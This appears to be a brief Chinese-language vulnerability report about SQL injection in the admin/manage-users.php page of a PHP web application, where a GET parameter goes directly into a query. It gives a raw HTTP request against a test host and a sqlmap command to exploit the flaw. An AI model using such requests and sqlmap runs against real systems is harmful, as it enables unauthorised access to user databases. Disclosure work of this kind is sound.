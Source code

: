 admin/manage-users.php文件中 $adminid 直接拼接到sql语句中，而$adminid是通过GET请求直接获取的


![alt text](manage-users.php%20sql%20inject-1.png)

构造恶意数据包
GET /admin/manage-users.php?id=1 HTTP/1.1
Host: test.jc
Cookie: PHPSESSID=6keshioktp2eu9p7fg0ent8hk2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://test.jc/admin/
Accept-Language: zh-CN,zh;q=0.9

run sqlmap -r get.txt --level 3


![alt text](manage-users.php%20sql%20inject-2.png)
